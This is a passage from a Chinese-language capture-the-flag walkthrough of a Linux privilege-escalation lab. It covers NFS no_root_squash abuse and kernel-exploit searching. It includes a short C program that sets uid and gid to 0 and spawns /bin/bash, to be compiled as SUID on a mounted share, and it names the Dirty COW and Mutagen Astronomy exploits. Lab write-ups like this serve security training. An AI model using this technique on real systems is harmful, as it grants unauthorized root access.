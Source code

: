      ![image-20220826225821726](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826225821726.png)
3. What is the content of the flag6.txt file?
   步骤同上

### Privilege Escalation: NFS

1. How many mountable shares can you identify on the target system?
   输入命令`cat /etc/exports`
   ![image-20220826235243053](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826235243053.png)

2. How many shares have the "no_root_squash" option enabled?
   三个可挂载目录都开启了`no_root_squash`

3. Gain a root shell on the target system
   选择任意目录挂载在攻击机中，利用c语言脚本提权
   编写脚本，`gcc 脚本 -o 程序`，添加suid权限和执行权限

   ```c
   #include<unistd.h>
   void main()
   {
           setuid(0);
           setgid(0);
           system("/bin/bash");
   }
   ```

   ![image-20220827000320491](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827000320491.png)

4. What is the content of the flag7.txt file?
   root的shell直接`cat /home/matt/flag7.txt`

### Capstone Challenge

提权路径

命令`uname -a`查看内核版本

![image-20220827002633164](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827002633164.png)

`searchsploit`搜索一下内核版本，有一个可利用的漏洞`Linux Kernel 2.6.x / 3.10.x / 4.14.x (RedHat / Debian / CentOS) (x64) - 'Mutagen Astronomy' Local Privilege Escalation`，目标机器也有gcc工具
也可以利用dirtycow提权，均未成功利用

![image-20220827002956388](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827002956388.png)

命令`sudo -l`没有任何的sudo权限

![image-20220827001652557](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827001652557.png)

crontab无信息

![image-20220827001801921](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827001801921.png)
